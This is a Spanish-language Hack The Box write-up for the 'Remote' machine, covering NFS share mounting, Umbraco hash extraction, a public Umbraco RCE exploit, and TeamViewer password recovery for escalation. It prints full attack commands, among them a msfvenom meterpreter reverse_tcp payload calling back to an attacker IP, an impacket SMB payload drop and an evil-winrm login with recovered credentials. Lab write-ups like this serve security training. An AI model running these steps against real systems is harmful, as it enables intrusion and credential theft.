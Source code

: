```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults
layout: default
---
```

# REMOTE HTB

### (Impacket, monturas, escalada mediante TeamViewer)

Empezaremos haciendo el nmap de siempre:

```bash

nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap

```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](../zimages/Pasted_image_20231203203247.png)

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](../zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash

wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'

```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](../zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](../zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando

```bash

showmount -e "10.10.10.180"

```

podemos ver las monturas que está emitiendo esa ip:

![image](../zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash

nmap -p 111 --script=nfs-showmount "10.10.10.180"

```

![image](../zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash

mount -t nfs 10.10.10.180:/site_backups /mnt/

```

![image](../zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash

cat Umbraco.sdf | head

```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](../zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](../zimages/Pasted_image_20231203205736.png)

También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](../zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](../zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash

python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20

```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien.

Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell

cd C:\windows\temp

```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe

```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash

impacket-smbserver samucrow $(pwd) -smb2support

```

Esto básicamente es como hacer un

```python

python3 -m http.server 80

```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell

copy \\10.10.14.20\samucrow\virus.exe virus.exe

```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole

set PAYLOAD windows/meterpreter/reverse_tcp

```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user:

![image](../zimages/Pasted_image_20231203221719.png)



# Escalada 1


Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.

Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente:


```msfconsole

search teamviewer

```


![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

  

![image](../zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

  

![image](../zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash

evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'

```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root:

![image](../zimages/Pasted_image_20231203224126.png)


# Escalada 2 (NO FUNCIONAL)


Si nos vamos a la consola de metasploit, podemos poner el comando `search local_exploit_suggester` y `use 0` para usar el exploit suggester, una vez hecho esto, ponemos `set SESSION 1` y `run`, así nos buscará posibles formas de conseguir privilegios de Administrador.
  
![image](../zimages/Pasted_image_20231203224957.png)

Probamos con todos los posibles exploits pero ninguno funciona